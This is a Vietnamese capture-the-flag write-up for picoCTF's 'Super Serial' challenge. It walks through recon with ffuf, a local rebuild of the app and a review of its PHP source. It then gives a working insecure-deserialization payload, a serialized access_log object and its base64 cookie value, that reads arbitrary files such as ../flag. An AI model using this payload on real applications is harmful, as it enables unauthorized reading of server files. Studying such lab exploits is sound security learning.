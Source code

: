 # Super Serial
### Thử thách:
- Try to recover the flag stored on this website [http://mercury.picoctf.net:2148/](http://mercury.picoctf.net:2148/)
- Hint: The flag is at ../flag.
### Kiến thức nền:
- PHP deserialization injection.
### Giải quyết vấn đề:
1/ Initial reconnaissance:

- Đề bài cho ta một trang login như sau:
 
![image](https://user-images.githubusercontent.com/61876488/115115640-bb9b0200-9fbf-11eb-866b-30765f2431d4.png)

- Thường thì khi nhìn vào các trang login như thế này thì ta nghĩ ngay đến việc tìm cách bypass để vào được một normal user hay admin nào đó. Tên bài là "Super Serial" làm mình có cảm giác trang login này sẽ bị dính lỗi "PHP deserialization injection". Các lỗi liên quan đến deserialization thường xuất hiện ở các session cookie. Hiểu sơ sơ sau khi login thành công thì mỗi user sẽ được phát 1 cái cookie như này. Tuy nhiên, lại quay về vấn đề cũ, chúng ta vẫn chưa biết làm cách nào để bypass cái trang login này! Thử reconnaissance xem trang login này còn manh mối gì nữa không. Sử dụng [ffuf](https://github.com/ffuf/ffuf) để brute-force directory của URL đã cho:

![image](https://user-images.githubusercontent.com/61876488/115120304-0aa06180-9fd7-11eb-9c65-c5d29e7f870d.png)

- Như vậy, source của trang này gồm 3 file php là index, cookie và authentication. Các bài ctf code bằng php thì hay cho đọc source thông qua file [phps](https://stackoverflow.com/questions/41689479/what-is-the-file-extension-phps-and-what-is-it-used-for). Uầy, bài này cho source thật:
![image](https://user-images.githubusercontent.com/61876488/115120456-d8dbca80-9fd7-11eb-929c-1b36316ad638.png)

Thử đem hết đống source code này về dựng trên local host để xem nó hoạt động như nào. 

2/ Rebuild the environment and review source code:

a) Rebuild the environment:
- Các cài đặt cần thiết: php, sqlite3, các module để kết nối PHP với SQLite3 như pdo_sqlite hay [php-sqlite3](https://www.getastra.com/kb/knowledgebase/how-to-install-sqlite-for-php-on-my-apache-nginx-server/) (kiểm tra các PHP module bằng lệnh `php -m`).
- Để ý trong source phần cookie.php có đoạn sau:
```php
$con = new SQLite3("../users.db");
$username = $this->username;
$password = $this->password;
$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
```
Điều này đồng nghĩa rằng chúng ta phải tạo thêm một file [flat database](https://www.techopedia.com/definition/25330/flat-database) users.db chứa username và password (tất nhiên là fake, btw, chúng ta đang ở local host, thích làm gì mà chả được :v):
\+ Tạo database: `sqlite3 users`
\+ Tạo table: 
```SQL
CREATE TABLE users(
   admin BOOLEAN NOT NULL CHECK (admin IN (0, 1)),
   username VARCHAR(20) NOT NULL,
   password VARCHAR(20) NOT NULL       
)
```
\+ Insert data:
```SQL
INSERT INTO users VALUES ('1','antoine','12345'); // admin account
INSERT INTO users VALUES ('0','messi','12345'); // guest account
```
- Bây  giờ thì chúng ta đã có hai account để login vào là "antoine" và "messi". Test thử xem sao:

\+ antoine:

![image](https://user-images.githubusercontent.com/61876488/115133042-5121aa80-a02f-11eb-8cd5-34d064562029.png)

\+ messi:

![image](https://user-images.githubusercontent.com/61876488/115133101-e0c75900-a02f-11eb-901c-069d7fd75e27.png)

- Nhìn chung sau khi login vào thì ta sẽ được direct đến "authentication.php". Đồng thời trang web sẽ tạo ra một session cookie tên "login" (F12 để check).

b) Review source code:
- index.php:
```php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
```
\+ username và password được gửi đến server thông qua method POST.

\+ username và password được truyền vào object “perm_res” để authenticate.

\+ Nếu method “is_guest” hay “is_admin” của object “perm_res” trả về “true” thì cookie “login” sẽ được tạo ra và header “Location” sẽ set value bằng “authentication.php” (direct từ trang login sang trang “welcome”).

\+ Cookie “login” được tạo ra bằng cách serialize object “perm_res” sau đó base64 và urlencode. (có khả năng khai thác được PHP deserialization).

- cookie.php:
```php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}
```
\+ Hàm is_guest  và is_admin của class permissions hoạt động tương  tự như nhau, đều check 2 attribute username và password của class permission bằng cách truy vấn vào database “users.db” để check xem account có exist hay không. Vì hai hàm này đều sử dụng “prepared statements” và “parameterized queries” để execute truy vấn nên việc inject các object php nhằm mục đích exploit SQLi là bất khả thi. Ví dụ:
`O:11:"permissions":2:{s:8:"username";s:7:"antoine";s:8:"password";s:12:"a' OR 1=1 --";}`
không thể exploit được.

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```
\+ Khối lệnh if này check xem cookie “login” đã được serialize đúng cách chưa (khi modify lại cookie “login” trên storage cần lưu ý điều này). Nếu không đúng sẽ trả về dòng lỗi “Deserialization error.” kèm theo data bị unserialize lỗi ra. 

- authentication.php:
```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```
\+ Class “access_log” có 2 magic method là “__construct” và “__toString”. Trong đó method “__toString” trả về kết quả của hàm read_log. Hàm read_log lại trả về nội dung của file được truyền vào constructor của class “access_log” thông qua hàm file_get_contents.

\+ Magic method sẽ chạy khi class được khởi tạo, do đó chúng ta lợi dụng lỗi PHP deserialization để khởi tạo 1 object “access_log”, truyền vào nó 1 đường dẫn file bất kì, method “__toString” sẽ chạy và in ra nội dung của file. Vì ở trên local host không có file "flag" nên chúng ta sẽ lấy file "access.log" làm ví dụ. Encode (base64 rồi url) và inject payload này vào cookie "login":
` O:10:"access_log":1:{s:8:"log_file";s:10:"access.log";} `
ta được kết quả:

![image](https://user-images.githubusercontent.com/61876488/115134652-31dd4a00-a03c-11eb-8846-3d0923919ab5.png)

3/ Exploitation:

- Vào URL: http://mercury.picoctf.net:2148/authentication.php
- Tạo 1 cookie login với value là: 
`TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`
(plaintext: `O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`, vì trong hint có ghi "The flag is at ../flag.")
- Refresh lại trang ta thu được flag:

![image](https://user-images.githubusercontent.com/61876488/115134775-600f5980-a03d-11eb-819d-1c30cd4129e7.png)

